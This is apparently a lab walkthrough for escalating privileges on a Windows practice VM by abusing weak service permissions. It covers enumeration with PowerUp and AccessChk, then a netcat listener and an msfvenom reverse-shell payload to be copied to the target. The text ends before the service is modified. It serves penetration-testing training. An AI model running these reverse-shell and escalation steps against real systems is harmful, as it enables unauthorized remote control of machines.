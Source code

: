 ### Using Script on Windows VM

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the service permissions field)

```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```
![image](https://user-images.githubusercontent.com/59029171/161123056-908dbaa0-fced-490f-a158-9d2f20661d31.png)

### Checking manually on Windows VM

1. Run [AccessChk64.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```console
C:\Temp> accesschk64.exe -uwcv Everyone *

# Switch meaning
# w --> only show items that have write access
# v --> verbose; dispaly as many details as possible
# u --> ignore the errors
# c --> displays service name of the following
# Everyone --> means everyone as a group who hass access
```
![image](https://user-images.githubusercontent.com/59029171/161123809-4f85ab02-1d83-46a8-8f9c-2be2fc85a43d.png)

2. Using [AccessChk64.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) query the service found
```console
C:\Temp> accesschk64.exe -uwcv daclsvc
```
![image](https://user-images.githubusercontent.com/59029171/161124072-a5fb8b5e-5d0c-4cf5-8551-f63b33ad4b9d.png)

3. Find path of the bin file
```console
C:\Temp> sc qc daclsvc
```

![image](https://user-images.githubusercontent.com/59029171/161124205-51cf18ef-d3a8-457d-b65a-1545c310c7b9.png)

##  <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o reverse.exe
```
3. Copy the generated file `reverse.exe`, to the Windows VM.
